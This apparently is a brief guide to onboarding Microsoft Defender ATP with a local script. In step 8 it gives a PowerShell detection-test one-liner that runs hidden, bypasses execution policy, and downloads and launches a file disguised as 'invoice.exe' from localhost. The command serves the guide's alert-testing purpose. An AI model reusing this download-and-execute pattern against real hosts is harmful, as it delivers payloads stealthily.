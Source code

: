 # Onboard Microsoft Defender Advanced Threat Protection with Local Script

To deploy using a local script:

1. Go to [security.microsoft.com](https://security.microsoft.com).
2. Navigate to **Settings** and select **Endpoints**.
3. Scroll down to **Device management** and select **Onboarding**.
4. Choose the onboarding options with the deployment method set to **Group Policy**. Ensure to download the package for Group Policy as the scripts vary based on the deployment method.
5. Once the download is complete, run the executable file (`.exe`).
6. A command prompt will pop up. Enter `Y` to continue the deployment.
7. The deployment may take 5 to 8 minutes to appear in the portal.
8. To verify Defender ATP, use the following PowerShell script:
    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```
9. You will find an alert under Incidents & Alerts 
10. You can find this script in your Defender portal: [Defender Onboarding](https://security.microsoft.com/securitysettings/endpoints/onboarding?tid=d8b703ef-81f7-478a-96a2-298aca6e1a76).

Feel free to adjust the details as needed!
